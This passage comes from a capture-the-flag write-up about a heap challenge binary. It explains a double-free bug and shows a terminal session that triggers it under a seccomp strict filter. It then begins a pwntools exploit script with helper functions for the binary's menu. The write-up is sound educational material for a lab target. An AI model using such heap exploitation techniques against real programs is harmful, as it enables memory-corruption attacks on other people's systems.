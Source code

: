 As mentioned a couple of times now, `alloc_arr` is a dynamic array which only gets appended to and never deleted from. There is no checks as to whether or not an entry has already been called `free` on, allowing us to call free on any `pointer` that is returned by `malloc` as much as we want.

An example of this:
```
$ ./chal 
1. make allocation
2. do free
3. go eat dinner!
> 1
Allocation size: 24
Write offset: 0
Data for buffer: .
1. make allocation
2. do free
3. go eat dinner!
> 2
Free idx: 0
1. make allocation
2. do free
3. go eat dinner!
> 2
Free idx: 0
Killed
```

**note** that we see *Killed* here instead of the expected: `free(): double free detected in tcache 2`. This is due to the error messages being printed via the `writev` syscall, which is not allowed in the `seccomp strict` filter. 

However when patching out the `prctl(PR_SET_SECCOMP, SECCOMP_MODE_STRICT)` call, we can see the full message:
```
[...]
> 2
Free idx: 0
free(): double free detected in tcache 2
Aborted (core dumped)
```

#### Exploit script base

To make exploitation simpler, the following helper functions will be used to interact with the binary:
```python
#!/usr/bin/env python3
from pwn import *

elf = ELF('./chal')

alloc_count = -1

def menu():
    return p.recvuntil(b'> ')

def malloc(size, data, offset=0):
    global alloc_count
    print("[%s]malloc(%s)" % (alloc_count+1, hex(size)))
    p.sendline(b'1')
    p.sendlineafter(b'Allocation size: ', str(size).encode())
    p.sendlineafter(b'Write offset: ', str(offset).encode())
    p.sendafter(b'Data for buffer: ', data)
    alloc_count += 1
    menu()
    return alloc_count
```